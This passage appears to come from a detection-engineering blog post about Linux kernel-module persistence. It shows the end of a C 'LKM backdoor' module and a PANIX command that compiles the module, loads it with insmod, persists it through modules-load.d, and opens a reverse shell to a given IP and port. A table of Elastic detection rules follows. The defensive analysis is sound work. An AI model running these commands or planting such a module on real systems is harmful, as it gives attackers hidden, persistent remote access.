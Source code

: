 ```c
	printk(KERN_INFO "Removing LKM backdoor module\\n");
	if (task) {
		kthread_stop(task);
	}
}

module_init(lkm_backdoor_init);
module_exit(lkm_backdoor_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("PANIX");
MODULE_DESCRIPTION("LKM Backdoor");
```

After compilation with `make` and `gcc`, it copies the LKM to `/lib/modules/$(uname -r)/kernel/drivers/${lkm_name}.ko` and executes the `sudo insmod ${lkm_destination}` to load the module. The `$(uname -r)` command ensures that the path corresponding to the active kernel version is resolved.

Let’s run the module:

```bash
> sudo ./panix.sh --lkm --default --ip 192.168.1.1 --port 2017

[+] Kernel module source code created: /tmp/lkm/panix.c
[+] Makefile created: /tmp/lkm/Makefile 
[+] Kernel module compiled successfully: /lib/modules/4.19.0-27-amd64/kernel/drivers/panix.ko
[+] Adding kernel module to /etc/modules, /etc/modules-load.d/ and /usr/lib/modules-load.d/...
[+] Kernel module loaded successfully. Check dmesg for the output.
[+] Kernel module added to /etc/modules, /etc/modules-load.d/ and /usr/lib/modules-load.d/
[+] LKM backdoor established! 
```

Taking a look at the remnants left behind in Discover, we can see:

![PANIX LKM module execution visualized in Kibana]( /assets/images/continuation-on-persistence-mechanisms/image5.png "PANIX LKM module execution visualized in Kibana")

PANIX is executed, initiating the compilation process for the LKM using `make`, ensuring it is built for the active kernel version. Once compiled, the resulting `panix.ko` module is placed in the appropriate module library directory for the current kernel. To achieve persistence across reboots, a configuration file named `panix.conf` is created in both `/etc/modules-load.d/` and `/usr/lib/modules-load.d/`. The module is then loaded into the kernel using the `insmod` command, activating the reverse shell. Leveraging the Auditd Manager integration, we can observe the `kmod` utility loading the `panix` kernel module.

This technique can leave behind several traces. The following detection- and endpoint rules are in place to effectively detect these:

| Category | Coverage                                           |
|----------|----------------------------------------------------|
| Driver   | [Kernel Driver Load](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/persistence_kernel_driver_load.toml)                                 |
|          | [Kernel Driver Load by non-root User](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/persistence_kernel_driver_load_by_non_root.toml)                |
| File     | [Loadable Kernel Module Configuration File Creation](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/persistence_lkm_configuration_file_creation.toml) |
|          | [Kernel Object File Creation](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/persistence_kernel_object_file_creation.toml)                        |
| Process  | [Kernel Module Load via insmod](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/persistence_insmod_kernel_module_load.toml)                      |
|          | [Kernel Module Removal](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/defense_evasion_kernel_module_removal.toml)                              |
|          | [Enumeration of Kernel Modules](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/discovery_kernel_module_enumeration.toml)                      |
|          | [Attempt to Clear Kernel Ring Buffer](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/defense_evasion_clear_kernel_ring_buffer.toml)                |
|          | [Kernel Load or Unload via Kexec Detected](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/privilege_escalation_load_and_unload_of_kernel_via_kexec.toml)           |
| Syslog   | [Tainted Kernel Module Load](https://github.com/elastic/detection-rules/blob/2ff2965cb96be49e316a2e928c74afd16e1b3554/rules/linux/persistence_tainted_kernel_module_load.toml)                         |